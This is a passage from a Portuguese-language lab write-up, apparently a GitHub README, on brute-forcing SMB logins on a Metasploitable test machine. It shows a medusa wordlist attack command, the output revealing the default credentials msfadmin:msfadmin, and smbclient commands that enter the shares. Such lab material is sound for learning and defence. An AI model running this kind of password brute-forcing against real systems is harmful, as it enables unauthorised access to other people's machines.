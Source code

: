 ```bash
medusa -h 192.168.56.102 \
       -U wordlists/users.txt \
       -P wordlists/passwords.txt \
       -M smbnt \
       -t 2 \
       -v 6 \
       -f
```

**Nota:** Usei apenas 2 threads para SMB para evitar sobrecarga do serviço.

#### Resultado do Ataque

```
ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 User: admin Password: 123456
ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 User: admin Password: password
...
ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```

**✅ Credencial descoberta: `msfadmin:msfadmin`**
**⏱️ Tempo: ~35 segundos**
**🔢 Tentativas: 267**

#### Validação do Acesso

```bash
$ smbclient -L 192.168.56.102 -U msfadmin
Enter WORKGROUP\msfadmin's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (metasploitable server)
	ADMIN$          IPC       IPC Service (metasploitable server)

$ smbclient //192.168.56.102/tmp -U msfadmin
Enter WORKGROUP\msfadmin's password: 
smb: \> ls
  .                                   D        0  Mon Oct 21 10:30:15 2025
  ..                                  D        0  Sun May 20 14:36:12 2012
  5573.jsvc_up                        R        0  Mon Oct 21 09:15:42 2025
smb: \> 
```

**✅ Acesso SMB confirmado! Possível acessar compartilhamentos.**

#### Vulnerabilidades Exploradas

1. **Versão antiga do Samba** (3.0.20-Debian)
2. **Credenciais padrão**
3. **Compartilhamentos com permissões fracas**
4. **Ausência de políticas de bloqueio**
5. **Enumeração de usuários permitida**

---